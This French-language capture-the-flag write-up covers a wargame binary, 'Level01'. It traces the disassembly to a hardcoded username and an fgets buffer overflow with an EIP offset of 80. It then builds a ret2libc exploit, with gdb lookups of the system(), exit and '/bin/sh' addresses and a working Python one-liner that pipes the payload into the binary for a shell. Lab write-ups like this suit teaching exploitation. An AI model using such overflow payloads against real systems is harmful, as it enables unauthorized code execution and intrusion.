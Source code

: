 ## Level01

![image](https://user-images.githubusercontent.com/29956389/94989475-68a6b380-0575-11eb-84bd-4fefd7fecc08.png)

On observe trois fonctions: `main`, `verify_user_name` et `verify_user_pass`.

![image](https://user-images.githubusercontent.com/29956389/94989125-ad7d1b00-0572-11eb-8132-d9505bf1cd52.png)

On observe l'equivalent d'un `bzero()` de 16 bytes:

![image](https://user-images.githubusercontent.com/29956389/94989418-051c8600-0575-11eb-842d-960576d34650.png)

L'affichage du banner et du prompt:

![image](https://user-images.githubusercontent.com/29956389/94989447-31380700-0575-11eb-9f0b-2932fdd638aa.png)
![image](https://user-images.githubusercontent.com/29956389/94989463-4dd43f00-0575-11eb-82ef-34872e54af29.png)

L'entrée utilisateur pour le username:

![image](https://user-images.githubusercontent.com/29956389/94989491-883ddc00-0575-11eb-8f50-9360295f830d.png)

La comparaison entre le retour de la fonction `verify_user_name` et `0x0`.

![image](https://user-images.githubusercontent.com/29956389/94989510-adcae580-0575-11eb-8d5c-65789bc82cb6.png)

![image](https://user-images.githubusercontent.com/29956389/94989135-be2d9100-0572-11eb-9c69-4cc0d1795319.png)

`0x80486a8` vaut `dat_wil`.

![image](https://user-images.githubusercontent.com/29956389/94989636-99d3b380-0576-11eb-8358-b456386086c8.png)

Le username est correct. Mais dans la fonction `verify_user_pass` la string `0x80486b0 'admin'` ne marche pas comme mot de passe.

![image](https://user-images.githubusercontent.com/29956389/94989140-c980bc80-0572-11eb-9bca-d6580d88d9fa.png)

Par contre on peut voir que notre entréé est stocke a `esp+0x1c` et qu'on lit un maximum de 0x64 bytes:

```
0x08048565 <+149>:   mov    DWORD PTR [esp+0x4],0x64
0x0804856d <+157>:   lea    eax,[esp+0x1c]
0x08048571 <+161>:   mov    DWORD PTR [esp],eax
0x08048574 <+164>:   call   0x8048370 <fgets@plt>
```
On essaye donc d'overflow le buffer:

![image](https://user-images.githubusercontent.com/29956389/94989961-daccc780-0578-11eb-9bb1-80a97de5daf0.png)

![image](https://user-images.githubusercontent.com/29956389/94989965-de604e80-0578-11eb-9852-8e948ccca999.png)

L'eip est a l'offset 80. On peut donc exploiter le binaire. Par contre aucun appel a `system(/bin/sh')` ou `printf($flag)` n'est présent dans le code, on l'exploitera donc avec une attaque ret2libc:

L'idée est d'utiliser les fonction déja présente dans le binaire (system() dans libc), et d'arranger la stack correctement pour faire executer notre code.

On localise donc l'addresse de `system`:

```
(gdb) p system
$1 = {<text variable, no debug info>} 0xf7e6aed0 <system>
```

Ainsi que la string `/bin/sh` (avec une methode un peu brute):

```
(gdb) find __libc_start_main,+99999999,"/bin/sh"
0xf7f897ec
```

Notre exploit est donc composé de :

`[ buffer permettant d'atteindre l'overflow ] [ Adresse system() ] [ Adresse retour ] [ Adresse "/bin/sh" ]`

ou 

`[ 80 bytes ] [ 0xf7e6aed0 ] [ 0xf7e5eb70 ] [ 0xf7f897ec ]`

Notre stack ressemblera donc a ceci:

![image](https://user-images.githubusercontent.com/29956389/94990364-bd4d2d00-057b-11eb-91d6-112544029694.png)

Notez l'adresse retour qui correspond a la sauvegarde de $eip pour l'instruction suivante, on y insere ici l'adresse d'exit pour quitter proprement apres l'exploit, mais ceci est optionel.

![image](https://user-images.githubusercontent.com/29956389/94990423-42384680-057c-11eb-963b-7633d8d1968a.png)

`(python -c 'print "dat_wilzer" + "\x0a" + "A"*80 + "\xd0\xae\xe6\xf7" + "\x70\xeb\xe5\xf7" + "\xec\x97\xf8\xf7" + "\x0a"' ; cat ) | ./level01`

